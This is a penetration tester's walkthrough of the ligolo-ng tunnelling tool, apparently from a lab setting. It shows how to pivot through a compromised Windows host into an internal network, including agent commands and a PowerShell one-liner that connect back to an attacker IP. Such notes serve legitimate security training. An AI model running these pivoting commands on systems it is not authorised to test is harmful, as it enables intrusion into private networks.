







# ligolo-ng

[`ligolo-ng`](https://github.com/nicocha30/ligolo-ng) is the best tool for tunneling particularly when attempting to go through a pivot machine into the internal network. It runs with root privileges but allows the attacker to just use IP addresses natively without concern.

The software is split into 2 pieces:

1. **Proxy:** runs on the attacker's machine and acts as the connection hub (must be run with elevated privileges because it manipulates the machine's interfaces)
2. **Agent:** run on the victim machines to connect back to proxy. Only user permissions needed.

## Install

The easiest thing to do is to just follow the installation instructions on the GitHub page. Download with:

<pre class="language-bash"><code class="lang-bash">cd `go env GOPATH`/src
<strong>git clone https://github.com/nicocha30/ligolo-ng.git
</strong></code></pre>

On my machine I really only need the proxy file so I build it with:

```bash
go build -o proxy cmd/proxy/main.go
```

### Agents

I also head to the [releases page](https://github.com/nicocha30/ligolo-ng/releases) and grab a pre-compiled Windows agent to place on victim machines.

## Proxy Set Up

Prior to using `ligolo-ng` I must set up an interface for it. This can be done either via the command line or the ligolo-ng interface.

### Command Line

I do this with the following commands:

```bash
sudo ip tuntap add user $USER mode tun <interface_name>
```

```bash
sudo ip link set <interface_name> up
```

### User Interface

Alternatively I can launch the ligolo-ng interface:

```bash
sudo ./proxy
```

* Run `proxy` binary as sudo to allow it to handle interface manipulation
* `-laddr` can be used to customize the listener's location on an accessible port to the victim

The console looks like this once launched:

<figure><figcaption><p>ligolo-ng interface</p></figcaption></figure>

Once running I can simple use the command:

```
interface_create --name "<interface_name>"
```

Once the interface is stood up I am ready to start an agent on a victim.

## Agent

The agent is run on the victim machine. In this example I will be running it on a machine called WEB02 which serves as a pivot between a 192.168.225.0/24 network to which I am connects and an internal 172.16.225.0/24 network which I want to reach.

I assume I have compromised a victim machine. In this instance the shell on the victim is running as `SYSTEM` but it _does not need to be elevated_, it can be just any user.

To launch the agent I simple use:

```
C:\Windows\Temp\ligolo_agent.exe -connect 192.168.45.154:5984 -ignore-cert
```

<figure><figcaption></figcaption></figure>

This launches a session which I can see on my proxy listener:

<figure><figcaption><p>Agent joined notification</p></figcaption></figure>

### PowerShell

If I have access to PowerShell I can use this one-liner to start it in the background and not lose use of my shell:


```bash
$scriptBlock = { Start-Process C:\Windows\Temp\ligolo_agent.exe -ArgumentList @('-connect 192.168.45.154:5985', '-ignore-cert') }; Start-Job -ScriptBlock $scriptBlock
```


<figure><figcaption><p>Note the session returned and is still interactive</p></figcaption></figure>

## Session

I can now use my proxy interface to select the `session` using the session command:

<figure><figcaption><p>Session selection</p></figcaption></figure>

## Tunnel Launch

Once the session has been selected I simply create a tunnel with the command:

```
tunnel_start --tun "<interface_name>"
```

And then I can add a route with:

```
interface_add_route --name "<interface_name>" --route 172.16.225.0/24
```

<figure><figcaption><p>Full tunnel start output</p></figcaption></figure>

## Using the Tunnel

Once set up, I can simply use the tunnel just by addressing traffic to the `172.16.225.0/24` network:

<figure><figcaption><p>Using the tunnel IPs natively</p></figcaption></figure>

This makes it very easy to work with. I have yet to find a type of traffic I cannot send over this tunnel.

## Tear-down

After exiting the console I can use the following command to remove the tunnel:

```bash
sudo ip tuntap del mode tun "<interface_name>"
```

I do not believe this is done automatically because I once had issues when I stopped and restarted a [`proxy` session](ligolo-ng.md#proxy-set-up) and attempted to create an interface with the same name in the new session.
